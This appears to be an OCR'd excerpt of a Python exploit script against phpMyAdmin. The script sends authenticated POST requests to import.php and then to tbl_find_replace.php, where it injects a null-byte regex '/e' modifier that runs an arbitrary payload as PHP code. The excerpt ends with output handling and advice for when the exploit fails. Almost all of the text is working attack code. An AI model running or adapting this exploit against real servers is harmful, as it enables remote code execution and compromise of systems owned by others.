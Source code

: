 ```python
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
            
```
